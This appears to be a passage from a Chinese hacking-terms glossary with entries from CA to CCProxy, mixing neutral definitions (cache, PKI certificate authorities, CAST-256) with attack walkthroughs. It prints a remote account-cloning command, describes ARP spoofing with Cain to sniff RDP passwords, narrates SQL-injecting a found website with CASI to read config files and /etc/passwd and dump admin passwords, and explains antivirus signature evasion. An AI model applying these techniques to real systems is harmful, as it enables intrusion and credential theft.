

## CA

- 1、Ca 是小榕写的一款用来克隆账户的软件，可以在本地命令行下克隆，也可以利用 IPC$ 进行远程克隆，其使用方式如下：

```txt
C:\>ca \\192.168.0.1 cody est iusr_victim password
Clone Administrator, by netXeyes 2002/04/06
Written by netXeyes 2002, dansnow@21cn.com
Connect 192.168.0.1 ....OK
Get SID of iusr_victim ....OK
Preparing ....OK
Processing ....OK
Clean Up ....OK
```

Cody 与 est 分别为远程主机的 Administrator 账号和密码；iusr_victim 是你想克隆的账号；最后的 password 就是给 iusr_victim 指定的密码。  
这时，iusr_victim 就成为了超级用户，并具有和 Administrator 同样的设置（桌面、菜单等等）。  
另外，小榕还写了一个 CCA.EXE 程序，可以检查是否存在克隆的账号，其使用方式如下：

```txt
C:\>cca \\192.168.0.29 administrator 123456
Check Clone Account, by netXeyes 2002/04/29
Written by netXeyes 2002, dansnow@21cn.com
Connect 192.168.0.29 ....OK
Preparing ....OK
Processing ....OK
Checking ....
Check Result:
[CODY] AS SAME AS [administrator]
[Guest] AS SAME AS [administrator]
```

这里显示账户 CODY 和 Guest 已经被克隆为 administrator。

- 2、CA（Computer Associates International, Inc），世界四大防护软件公司之一，其产品 CA Antivirus 是一种主要为中小型企业及 SOHO 用户提供解决方案的反病毒软件。

- 3、CA 是安全证书的签发机构，它是 PKI 的核心。CA 是负责签发证书、认证证书、管理已颁发证书的机关，它要制定政策和具体步骤来验证、识别用户。身份，并对用户证书进行签名，以确保证书持有者的身份和公钥的拥有权。CA 也拥有一个证书（内含公钥）和私钥。网上的公众用户通过验证 CA 的签字从而信任 CA，任何人都可以得到 CA 的证书（含公钥），用以验证它所签发的证书。

如果用户想得到一份属于自己的证书，他应先向 CA 提出申请。在 CA 判明申请者的身份后，便为他分配一个公钥，并且 CA 将该公钥与申请者的身份信息绑在一起，并为之签字后，便形成证书发给申请者。

如果一个用户想鉴别另一个证书的真伪，他就用 CA 的公钥对那个证书上的签字进行验证，一旦验证通过，该证书就被认为是有效的。

### Cache｜硬件

Cache（Cache Memory，高速缓冲存储器）是位于 CPU 与主内存间的一种容量较小但速度很快的存储器。它是一种特殊的存储器子系统，其中复制了频繁使用的数据以利于快速访问。

当处理器引用存储器中的某地址时，高速缓冲存储器便检查是否存有该地址。如果存有，则将数据返回处理器；如果没有，则进行常规的存储器访问。

Cache 由 Cache 存储部件和 Cache 控制部件组成。Cache 存储部件一般采用与 CPU 同类型的半导体存储器件，存取速度比内存快几倍甚至十几倍。

Cache 又分为一级 Cache（L1 Cache）和二级 Cache（L2 Cache）。L1 Cache 一般集成在 CPU 内部，L2 Cache 早期一般是焊在主板上，现在也集成在 CPU 内部了，目前常见的容量在 512K—2M 之间，有的甚至更高。

## CAIN（CAIN AND ABEL）｜黑客工具

Cain 和 Abel 两个词都来源于圣经，指的是亚当和夏娃的两个儿子：Cain 是一个种田的农民，性格暴躁，Abel 是一个性格温和的牧羊人。有一次，因为上帝接受了 Abel 的进贡物，Cain 感觉自己被冷落了，便发怒而杀害了自己的亲兄弟 Abel，从此 Cain 被上帝驱逐，流落人间。

Cain & Abel 是由 Oxid.it 开发的一个针对 Microsoft 操作系统的免费口令恢复工具，号称穷人使用的 L0phtCrack（如图 C-3）。它的功能十分强大，可以网络嗅探、网络欺骗、破解加密口令、解码被打乱的口令、显示口令框、显示缓存口令和分析路由协议，甚至还可以监听内网中他人使用 VOIP 拨打的电话。



图 C-3

CAIN 是渗透中最重要的工具，其最强大的功能有以下几个：

- 1. **读取缓存密码**  
  切换到“受保护的缓存口令”标签，点上面的那个加号即可。
- 2. **查看网络状况**  
  切换到“网络”标签，可以看到当前网络的结构及内网其他机器的共享目录、用户和服务。
- 3. **ARP 欺骗与嗅探**  
  切换到“嗅探”标签，按下右上角的网卡图标，再在中间空白处点右键，选择“扫描 MAC 地址”即可扫描出局域网内所有主机的 MAC 地址，如图 C-4 所示。



接着我们对 Cain 进行配置，单击最上面的“配置”菜单，弹出“配置对话框”，如图 C-5 所示。

在“嗅探器”中选择要嗅探的网卡，在“ARP（Arp Poison Routing）”中可以伪造 IP 地址和 MAC 地址进行欺骗，如图 C-6 所示。

在“过滤与端口”中可以设置过滤器，根据自己的需要选择过滤的端口。如嗅探远程桌面密码的话，就勾选 RDP 3389 端口，如图 C-7 所示。







设置好后单击网卡的那个标志开始嗅探，旁边的放射性标志则是 ARP 欺骗，如图 C-8 所示。



嗅探一段时间后，点击下面的“截取密码”或“口令”，嗅探所得的密码就会呈现在你的眼前，如图 C-9、图 C-10 所示。



总之，CAIN 是一个很方便很强大的黑客工具，虽然官方称之为密码恢复工具，但在渗透中它常常会发挥举足轻重的作用。除了上面介绍的功能外，CAIN 还能进行 DNS 欺骗，嗅探终端服务登录密码等。



## CASI 黑客工具

CASI 是一个用 VB 编写的 **PHP 注入**辅助工具，其功能十分强大，可以进行字段扫描、读取文件、Whois 查询等，在初期大多是收费版本，如图 C-11。



CASI 的主界面上，“注射 url”就是我们要进行注入攻击的网站的 URL 地址。如果我们利用这个工具进行网站入侵，先找到存在注入漏洞的 URL，然后把这个 URL 复制到“注射 url”中，点击“字段扫描”即可。“判断字符”一般按照默认的设置就可以了，不需要修改；在“程序信息”中，显示的都是我们在进行注射时的注射代码，每一个步骤的代码都可以看到，所以从这里返回的数据可以非常方便我们进行手工注入的学习；“软件登录”则是用于会员登录的，一般我们都不用，因为不是会员也不会有功能限制。

下面我们来利用这个工具进行一下入侵网站看看，这里我通过 google 找到了 `http://training2.xxxx/expert/teacher.php?id=882`，它存在注入漏洞，我们把这个 URL 复制到“注射 url”中，点击“字段扫描”，这个时候 CASI 就会弹出更大的页面，如图 C-12。



CASI 有一个“暴代码”的功能，它利用 `load_file()` 函数读取我们服务端文件的源代码，我们先要填上 loadfile 的插入位置，比如 `D:\starkun\down\include\config.inc.php`，那么当我们点击“确定”按钮时，就会读取这个文件的内容。一般这个功能最常用的就是读取网站或服务器配置文件，因为里面有很多的敏感信息。例如用 Linux 做服务器时，我们提交 `/etc/passwd` 的话，就可以读取到该 Linux 服务器下的所有密码文件。当然，前提是我们现在进行注射时的权限有那么大。通过改变目标文件路径，我们可以读取不同的文件，从而得到大量的敏感信息。

顺利地通过“字段扫描”后我们可以得到网站后台数据库的字段数，同时还有字段名、表名。接下来就是暴管理员的密码，填上所得到的字段名、表名及其插入位置（不过这个位置的填写要注意，不能超过这个数据库的字段数），顺利的话就可以从浏览 URL 中返回的页面看到管理员的密码。

CASI 还提供了一个工具箱，我们先来看看“后台扫描”功能，当我们点击时就会自动扫描我们正在注入的网站的后台，如图 C-13 所示。



图 C-13

Whois 查询功能是根据我们当前所注入的网站的 IP 地址，然后到网站 http://whois.webhosting.info 上去查询这个 IP 地址上是否还存在其他的网站。因为毕竟现在大部分网站都采用虚拟主机的服务，一个 IP 地址有很多网站，这样可以采用旁注来进行攻击。

CASI 还提供一个 MySQL 数据库连接器，我们把得到的用户名和密码、数据库名、主机名及端口设置后就可以连接上后台数据库了。如果网站采用的是与数据库分离的话，可以通过读取网站中数据库的连接文件，从那里得到数据库服务器的 IP 地址或主机名。另外，连接的时候最好把“使用压缩”选上，利于数据的传输，防止因数据过大而导致服务器死机。

## CAST-256 算法

CAST 是以它的设计者——Nortel 的 Carlisle Adams 和 Stafford Tavares 来命名的，它是一个 64 位的 Feistel 密码，使用 16 个循环并允许密钥大小最大可达 128 位。CAST-256 是其变体，使用 128 位的分组大小，而且允许使用最大 256 位的密钥。在 PGP 的最新版本及 IBM、Microsoft 等厂商的产品中都使用了它。

## CCL

CCL（Character Code Locator，特征码定位器）是一款用于定位文件及内存特征码，对特征码定位结果排列组合的工具。其定位方法主要有两种：手动定位和自动定位。

杀毒软件基本上也都是基于 CCL 特征码定位技术而设计的，所以免杀的关键就是找到特征码并修改成杀毒软件不能识别的形式，如加花指令等。

## CCProxy 应用程序

CCProxy 是国内流行的一款国产代理服务器软件，主要用于局域网内宽带或 ADSL 共享、专线代理共享、ISDN 代理共享、卫星代理共享、蓝牙代理共享和二级代理等共享上网。

